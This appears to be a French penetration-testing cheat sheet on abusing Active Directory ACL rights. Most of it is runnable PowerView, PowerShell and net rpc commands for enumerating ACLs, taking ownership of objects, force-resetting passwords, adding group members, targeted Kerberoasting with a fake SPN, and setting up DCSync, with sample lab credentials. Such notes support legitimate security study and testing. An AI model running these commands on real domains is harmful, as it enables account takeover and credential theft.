 ```yaml
---
public: true
---
```


## Enumération des ACLs

```powershell
. .\PowerView.ps1
# ACLs intéressantes (très long)
Find-InterestingDomainAcl

# ACLs liées à un compte spécifique ($targetUserName)
$sid = Convert-NameToSid $targetUserName 
# peu prendre beaucoup de temps (plusieures minutes vois dizaines de minutes)
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid} 
```

## Exploitation de privilèges en notre possession

On s'appuiera souvent sur des informations d'identification différentes d'un compte préalablement compris.

Dans ce cas, on utilisera le parametre `-Credential $creds` avec un objet PSCredential créé de la façon suivante :

```powershell
$pass = "somePass"
$user = "DOMAIN\someuser"
$creds = New-Object System.Management.Automation.PSCredential($user, (ConvertTo-SecureString $pass -AsPlainText -Force))
```

### WriteOwner (appropriation d'un objet)

Permet de s'approprier un objet pour ensuite accéder à ses propriétés et ajouter d'autres ACLs (par exemple l'ajout du droit ForceChangePassword)

```powershell
# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity $targetUser -OwnerIdentity $compromisedUser
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity $targetUser -PrincipalIdentity source_user -Rights ResetPassword
```

### ForceChangePassword (modification du mot de passe)

Windows

```powershell
$NewPass = 'NewPass@Pentest@'
$TargedUser = 'INLANEFREIGHT.LOCAL\ssmalls'
$PrivUser = 'INLANEFREIGHT.LOCAL\hporter'
$PrivPassword = 'Gr8hambino!'
$SecPassword = ConvertTo-SecureString '' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential($TargedUser, $NewPass)
$SecPassword = ConvertTo-SecureString 'Gr8hambino!' -AsPlainText -Force 
$Cred = New-Object System.Management.Automation.PSCredential($PrivUser, $SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

Set-DomainUserPassword -Identity ssmalls -AccountPassword $UserPassword -Credential $Cred

# Utilisation de credentials alternatifs
$PrivilegedUserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$PrivilegedCreds = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $PrivilegedUserPassword)
# Nouveau mot de passe a appliquer
$newPassword = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
# Modification du mot de passe
Set-DomainUserPassword -Identity Target_AD_User -Password $newPassword -Credential $PrivilegedCreds
```

Linux

```shell
# autres méthodes disponibles (voir l'aide de bloodhound)
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

### GenericWrite

Permet :

- l'ajout d'un utitilisateur comme membre d'un groupe sur le quel on dispose de ce droit
- la modification du script de login pour tenter une exécution de code à distance (au prochain logon)

```powershell
Add-DomainGroupMember -Identity "Target Group With GenericWrite right" -Members 'compromised'
# Verification
Get-DomainGroupMember -Identity "Target Group With GenericWrite right" | ?{$_.MemberName -eq 'compromised'}
```

### GenericAll
#### Sur un compte utilisateur
- Permet de récupérer le hash du mot de passe d'un utilisateur sur lequel on dispose de ce privilège.
- L'attaque se nomme "Targetted Kerberoasting".
- Elle conciste en la création d'un SPN sur le compte cible afin de récupérer un TGS à cracker hors ligne.
- Si le mot de passe est facile à deviner, on pourra le casser comme dans une attaque de Kerberoasting classique ([[Cassage de mots de passes Kerberos]])

```powershell
# Création d'un faux SPN pour pouvoir récupérer un TGS
Set-DomainObject -Identity $targetedUser -SET @{serviceprincipalname='nonexistent1/BLAHBLAH'}
# Récupération du TGS
Get-DomainUser $targetedUser | Get-DomainSPNTicket | fl
# Cleanup
Set-DomainObject -Identity $targetedUser -Clear serviceprincipalname
```

#### Sur un groupe
- elle permet de s'ajouter comme membre du groupe

#### Sur une OU
- elle permet d'ajouter un controle total sur l'OU et disposer d'un controle totale sur les objets qui sont dedans

### WriteDacl

Permet d'ajouter des DACL sur un compte utilisateur.

Cela peut permettre d'ajouter les permissions `DS-Replication-Get-Changes`, `DS-Replication-Get-Changes-All` et `DS-Replication-Get-Changes-In-Filtered-Set` qui permettent de réaliser une attaque ([[DCSync]])
